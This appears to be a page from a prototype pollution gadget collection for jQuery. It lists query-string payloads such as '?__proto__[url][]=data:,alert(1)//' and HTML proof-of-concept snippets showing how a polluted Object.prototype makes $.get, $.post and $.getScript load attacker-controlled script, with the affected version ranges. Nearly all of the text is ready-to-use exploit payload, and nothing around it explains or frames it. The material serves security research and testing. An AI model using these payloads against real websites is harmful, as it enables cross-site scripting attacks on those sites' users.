 ## jQuery 

URL: https://jquery.com/

### PoC $.get jQuery >= 3.0.0
```
?__proto__[url][]=data:,alert(1)//&__proto__[dataType]=script
```

```html
<script src=https://code.jquery.com/jquery-3.5.1.js></script>
<script> 
  Object.prototype.url = ['data:,alert(1)//'];   
  Object.prototype.dataType = 'script';
</script>      
<script>
  $.get('https://google.com/'); 
  $.post('https://google.com/'); 
</script>
```

### PoC $.getScript jQuery >= 3.4.0
```
?__proto__[src][]=data:,alert(1)//
```

```html
<script src=https://code.jquery.com/jquery-3.5.1.js></script>
<script>
  Object.prototype.src = ['data:,alert(1)//']
</script>
<script>
  $.getScript('https://google.com/')
</script>
```

### POC $.getScript jQuery == 3.3.1

```
?__proto__.url=data:,alert(1337)//
```

```html
<script/src=https://code.jquery.com/jquery-3.3.1.js></script>
<script>
  Object.prototype.url = "data:,alert(1337)//"
</script>
<script>$.getScript('https://google.com/')</script>
```
